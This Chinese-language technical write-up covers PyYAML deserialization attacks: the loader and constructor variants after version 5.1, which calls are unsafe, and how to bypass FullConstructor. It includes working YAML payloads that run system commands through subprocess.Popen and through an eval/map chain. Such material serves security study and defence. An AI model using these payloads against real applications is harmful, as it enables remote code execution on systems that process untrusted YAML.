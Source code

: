 1. `BaseConstructor`：没有任何强制类型转换
2. `SafeConstructor`：只有基础类型的强制类型转换
3. `FullConstructor`：除了 `python/object/apply` 之外都支持，但是加载的模块必须位于 `sys.modules` 中（说明已经主动 import 过了才让加载）。这个是默认的构造器。
4. `UnsafeConstructor`：支持全部的强制类型转换
5. `Constructor`：等同于 `UnsafeConstructor`

对应顶层的方法新增了：

1. `yaml.full_load`
2. `yaml.full_load_all`
3. `yaml.unsafe_load`
4. `yaml.unsafe_load_all`

#### 常规利用方式

常规的利用方式和 <5.1 版本的姿势是一样的。当然前提是构造器必须用的是 `UnsafeConstructor` 或者 `Constructor`，也就是这种情况：

1. `yaml.unsafe_load(exp)`
2. `yaml.unsafe_load_all(exp)`
3. `yaml.load(exp, Loader=UnsafeLoader)`
4. `yaml.load(exp, Loader=Loader)`
5. `yaml.load_all(exp, Loader=UnsafeLoader)`
6. `yaml.load_all(exp, Loader=Loader)`

#### 突破FullConstructor

FullConstructor 中，限制了只允许加载 `sys.modules` 中的模块。这个有办法突破吗？我们先列举一下限制：

1. 只引用，不执行的限制：
   1. 加载进来的 `module` 必须是位于 `sys.modules` 中
2. 引用并执行：
   1. 加载进来的 `module` 必须是位于 `sys.modules` 中
   2. FullConstructor 下，`unsafe = False`，加载进来的 `module.name` 必须是一个类

**subprocess.Popen**

```python
yaml.load("""
!!python/object/apply:subprocess.Popen
  - whoami
""") 
```

**map**

```python
tuple(map(eval, ["__import__('os').system('whoami')"]))
```

```python
yaml.load("""
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('whoami')"]
""")
```
